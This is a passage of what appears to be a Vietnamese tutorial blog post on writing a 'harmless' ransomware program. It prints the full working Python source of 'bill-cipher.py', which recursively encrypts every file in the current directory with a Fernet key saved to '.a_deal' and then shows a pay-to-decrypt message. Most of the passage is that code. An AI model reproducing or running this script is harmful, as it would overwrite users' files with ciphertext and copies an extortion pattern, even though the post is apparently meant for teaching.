 Thế là xong chương trình mã hóa file (`bill-cipher.py`). Đây là code cho chương trình mã hóa này:

```py
#!/usr/local/bin/python3 

import os
from cryptography.fernet import Fernet

def find_files():
	files = []
	
	for file in os.listdir():
		if file == "bill-cipher.py" or file == ".a_deal" or file == "bill-decipher.py":
			continue
		
		if os.path.isfile(file):
			files.append(file)
		else:
			os.chdir(file)
			sub_files = find_files()
			os.chdir("..")
			for subfile in sub_files:
				path = file + "/" + subfile
				files.append(path)
			
	return files

files = find_files()

print(files)

key = Fernet.generate_key()

with open(".a_deal", "wb") as deal:
	deal.write(key)

for file in files:
	with open(file, "rb") as f:
		content = f.read()

	content_encrypted = Fernet(key).encrypt(content)

	with open(file, "wb") as f:
		f.write(content_encrypted)

print("File đã bị mã hóa! Trả tiền thì sẽ giải mã")
```

Nếu như mình chạy file `bill-cipher.py` thì có thể thấy là các file mà chương trình này tìm được sẽ bị mã hóa và trở thành file chứa 1 đống chữ cái, ký tự random.

![file1-encrypted](/images/harmless-ransomware/file1-encrypted.png)
